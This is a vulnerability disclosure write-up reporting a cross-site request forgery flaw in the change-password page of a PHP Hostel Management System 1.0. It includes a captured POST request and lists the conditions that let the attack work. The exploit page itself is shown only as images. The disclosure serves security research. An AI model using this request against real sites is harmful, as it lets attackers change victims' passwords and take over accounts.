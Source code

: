 ## Vulnerability Details

**Credits**:
  > Paul Rivera: (https://github.com/blackslim3)<br/>

**Tested On**:
  > Hostel Management System using PHP and MySQL 1.0 : https://github.com/Surya2Developer/Hostel_Management_System/

**Affected Version**:
  > Hostel Management System using PHP and MySQL 1.0

**Affected Site Page**:
  > /change-password.php

**Affected Code**:
  > change-password.php

**Related CWE**:
  > CWE-352: Cross-Site Request Forgery (CSRF): https://cwe.mitre.org/data/definitions/352.html

## **Details**:
  > On the change-password functionality, an attacker can induce a user to do unintended password change by visiting an attacker controlled website. 

```http
POST /hostel/change-password.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: http://localhost
Connection: close
Referer: http://localhost/hostel/change-password.php
Cookie: PHPSESSID=pl4c7vknv65g74iqov35nu8e01
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


oldpassword=6786786786&newpassword=password123&cpassword=password123&changepwd=Change+Password

```

> On the POST request above, it has the following conditions that allows a CSRF to work:
- Relevant Action: change password
- Cookie-based session handling
- No unpredictable token needed
- The `oldpassword` value can be the attacker's password. 

> CSRF Exploit:

![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/CSRF_exploit.png)

> CSRF Exploit Successfully

![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/CSRF_changePassword_success.png)

## **Vulnerability Impact**:
    > In a successful CSRF attack, an attacker can causes a user to perform change password unintentionally.
    

